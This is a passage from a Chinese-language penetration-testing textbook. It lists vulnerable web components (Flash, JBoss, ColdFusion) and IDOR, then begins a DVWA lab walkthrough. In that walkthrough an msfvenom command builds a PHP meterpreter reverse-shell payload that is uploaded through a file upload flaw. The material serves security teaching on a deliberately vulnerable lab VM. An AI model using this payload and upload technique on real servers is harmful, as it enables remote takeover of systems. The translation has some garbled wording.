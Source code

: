 以下是 web 应用程序中一些常见的易受攻击组件：

*   **Adobe Flash Player**：Adobe Flash Player 通常用作 web 浏览器中的多媒体播放器。它支持在线视频、音频和游戏等应用程序内容。然而，多年来，发现并记录了许多安全漏洞，用户已经不再在其 web 浏览器上使用此组件。最近的一个漏洞是**CVE-2018-15982**，它允许成功利用导致在目标系统上执行任意代码的漏洞。
*   **JBoss 应用服务器**：JBoss 应用服务器是一个开源的、能够跨平台运行的 Java web 容器。在撰写本书时，发现了一个严重的漏洞，使攻击者能够在 JBoss 应用程序服务器上远程执行恶意代码，从而获得对目标的完全控制。

该漏洞影响了所有 JBoss 应用程序服务器 4.0 及更高版本。

*   **Adobe ColdFusion**：Adobe ColdFusion 是一个商业化的 web 应用开发平台。它的设计是为了让开发人员能够轻松地将 HTML 页面连接到数据库。然而，在 2018 年，发现了一个严重漏洞，该漏洞允许攻击者在有任何限制的情况下将数据上传到受损系统上，进而允许攻击者使用 web Shell 控制服务器。该漏洞记录为**CVE-2018-15961**。

请注意，这些只是 web 服务器上许多易受攻击组件中的一部分。随着时间的推移，安全研究人员将继续发现并记录新的漏洞。

在下一节中，我们将简要讨论**不安全的直接对象引用**（**IDOR**。

# 伊多尔

根据 OWASP（[www.OWASP.org](http://www.owasp.org)），当基于用户提供的输入向对象提供访问时，就会发生 IDOR。如果发现 web 应用程序易受攻击，攻击者可以尝试绕过授权并访问受损系统上的资源。

接下来，我们将演示如何利用目标机器上的文件上载漏洞。

# 利用文件上载漏洞

在本练习中，我们将使用 OWASP BWA 虚拟机演示文件上载漏洞。让我们开始：

1.  首先，使用`msfvenom`在您的 Kali Linux（攻击者）计算机上创建有效负载，稍后将上载到目标服务器。使用以下语法，创建基于 PHP 的负载以建立反向连接：

```
msfvenom -p php/meterpreter/reverse_tcp lhost=<IP address of Kali Linux> lport=4444 -f raw
```

2.  复制高亮显示的代码，打开文本编辑器，将文件保存为`img.php`：

![](assets/3515f8e8-4851-440d-8653-46e9b222a624.png)

3.  使用 Kali Linux 中的 web 浏览器，在地址栏中输入 OWASP BWA 的 IP 地址，然后点击*输入*。
4.  在主页面上，点击**该死的易受攻击的 Web 应用程序**：

![](assets/4c9eb84f-eccd-4a1c-bc70-04ce74a48e2c.png)

5.  DVWA 登录门户将出现。以`admin`/`admin`作为用户名/密码登录：

![](assets/a72d97a5-d315-4397-b695-4515e21e5566.png)

6.  登录后，您将在左侧看到一个菜单。单击上载以查看漏洞：文件上载页面：

![](assets/82c7950a-c57e-4d9d-bdd4-29873165967f.png)

7.  点击浏览…，选择`img.php`文件，然后点击页面上的上传。

8.  上传文件后，您将收到一条消息，显示文件存储在服务器上的目录：

![](assets/185e6808-af63-4746-a6bf-853ed461c7ee.png)
